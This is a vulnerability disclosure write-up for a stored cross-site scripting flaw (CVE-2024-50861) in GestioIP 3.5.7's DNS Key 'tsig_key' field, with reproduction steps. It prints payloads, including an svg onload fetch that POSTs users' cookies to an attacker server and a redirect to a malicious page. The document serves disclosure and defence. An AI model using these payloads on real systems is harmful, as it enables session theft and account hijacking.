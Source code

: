 ```yaml
---
title: "CVE-2024-50861. GestioIP Vulnerability: Stored XSS"
description: Stored Cross-Site Scripting
date: 2025-01-13T12:28:27-03:00
author: Maximiliano Belino
lang: en
tags:
  - vulnerability
  - CVE
  - Stored
  - XSS
---
```

# CVE-2024-50861

- [Information](#information)
	- [Description](#description)
- [Proof-of-Concept Exploit](#proof-of-concept-exploit)
	- [Description](#description)
	- [Steps to Reproduce](#steps-to-reproduce)


## Information

### Description

The `ip_mod_dns_key_form.cgi` request is vulnerable to Stored XSS (Stored Cross-Site Scripting). An attacker can save malicious content in the "TSIG Key" (tsig_key) field, which could allow for data exfiltration and enable CSRF (Cross-Site Request Forgery) attacks.


**Versions Affected:**  3.5.7

## Proof-of-Concept Exploit

### Description

The http://localhost/gestioip/res/ip_mod_dns_key_form.cgi feature of GestioIP 3.5.7 is vulnerable to Stored XSS. An authenticated attacker with appropriate permissions can inject malicious code into the *tsig_key* form field and save it to the database. Once saved, any user who accesses the "*DNS Key*" page will trigger the Stored XSS, leading to the execution of malicious code.


### Steps to Reproduce


1. **Enable "DNS Key" Feature**

First, ensure that "Dynamic DNS updates" is enabled in the global configuration:

Manage > Manage GestioIP > Global Configuration > Dynamic DNS updates enabled: yes


![](files/CVE-2024-50861.png)


This will enable the following menus:

- Manage > DNS Keys

- Manage > DNS Update User



2. **Create a DNS Key Entry**

To **create a new** *DNS key* entry and also **edit** an existing one, the user must belong to a group with the "Manage Sites And Categories" permission. By default, "Admin" and "GestioIP Admin" groups have this permission.

Also, you can configure this permission to any group under:

Manage > User Groups > Manage Sites and Categories

![|645](files/CVE-2024-50861-1.png)

3. **Enter payload**

Once group permission is set, input one of the following payloads into the "TSIG Key" (*tsig_key*) field and save it:


**1 - Test basic XSS**

`<script>alert("test")</script>`

We can verify the value was saved to the MySQL database:

![](files/CVE-2024-50861-2.png)


**2 - Send data (cookies) to the attacker's server**

`<svg/onload="fetch('http://10.20.0.1:8000/steal_data',{method:'POST',body:document.cookie})">`

The attacker server receives a POST request with data that can be saved:

![](files/CVE-2024-50861-4.png)


**3 - Redirect the user to a malicious site**

`<svg/onload="window.location='http://10.20.0.1:8090/malicious_page.html'">`


![](files/CVE-2024-50861-5.png)



User is redirected:

![](files/CVE-2024-50861-7.png)


GET request that's received by the attackers server:

![](files/CVE-2024-50861-6.png)



DANGER:
Once the payload is saved into *tsig_key*  field, **any authenticated user** (even those with "Read-Only" permissions) can access the "DNS Key" page, triggering the Stored XSS (provided that "Dynamic DNS updates enabled" is set to "yes").


Obs
By default, this field *tsig_key* is 150 char long



![](files/CVE-2024-50861-3.png)